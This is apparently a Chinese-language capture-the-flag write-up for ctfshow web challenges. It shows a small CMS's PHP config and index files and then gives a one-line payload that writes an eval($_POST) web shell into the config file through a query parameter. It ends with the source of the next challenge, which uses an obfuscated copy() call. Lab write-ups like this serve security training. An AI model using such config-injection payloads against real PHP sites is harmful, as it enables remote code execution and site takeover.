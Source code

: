 **config.php**

```php
<?php
define("HOST",'127.0.0.1');
define("USER",'ctfshow');
define("PASSWORD",'ctfshow');
define("DATABASE",'ctfshow');
?>
<?php
define("CURRENTCONFIGNAME","");
?>
```

**index.php**

```php
<?php
error_reporting(0);
include('config.php');
include('config.class.php');

config::init();

 ?>
 cms初始化成功
```

跟着调试一下就能发现

![image-20221227164704551](ctfshow_cms.assets/image-20221227164704551.png)

![image-20221227164713309](ctfshow_cms.assets/image-20221227164713309.png)

这两步可实现任意文件写入

**payload**

`?conf[CURRENTCONFIGNAME]=");?><?php%20eval($_POST[1]);//`

## web481

给出的源码

```php
<?php
error_reporting(0);

if(md5($_GET['session'])=='3e858ccd79287cfe8509f15a71b4c45d'){
$configs="c"."o"."p"."y";
$configs(trim($_GET['url']),$_GET['cms']);}

?>
nothing here
```
